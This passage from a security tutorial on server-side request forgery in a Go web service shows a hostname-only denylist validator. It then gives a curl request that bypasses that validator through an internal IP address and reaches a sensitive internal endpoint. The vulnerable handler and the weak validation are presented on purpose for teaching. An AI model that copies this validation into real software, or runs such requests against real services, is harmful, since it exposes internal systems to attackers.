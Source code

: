### Fix with negative validation

We can try to fix this SSRF by validating user input. Validation can be done in many ways. I will try first something that might now be very wise, just to prove a point.

```go
func validateTargetUrl(input string) bool {
    u, err := url.ParseRequestURI(input)
    if err != nil {
        return false
    }
    if (u.Scheme == "http" || u.Scheme == "https") &&
            (u.Hostname() != "backendapi") {
        return true
    }
    return false
}
```

What this function does is:
- parsing `input` to url
- checking if `Scheme` is `http` or `https` and
- making sure that we are not trying to connect to `backendapi`

Remember, we don't want to let the attacker connect to the `backendapi`!

### Exploit 2

Let's see service code one more time. But now, slightly modified:

```go
router.GET("/debug", func(context *gin.Context) {
    urlFromUser := context.Query("url")
    // validation because world is full of mean people :(
    if !validateTargetUrl(urlFromUser) {
        context.String(http.StatusBadRequest, "Bad url")
    return
    }
    resp, err := http.Get(urlFromUser)
```

and the exploit:

```bash
$ curl -s \
    http://publicapi/debug\?url\=
        http://10.96.155.247/internal
This is internal sensitive endpoint
```

Heh, yes, we have successful exploit.

{{< figure src="https://github.com/xvnpw/xvnpw.github.io/assets/17719543/25e42343-084a-4755-ba04-56f534a9da03" class="image-center" >}}

Why using IP address was possible? Public API and Backend API are sharing same network. There is nothing in between.
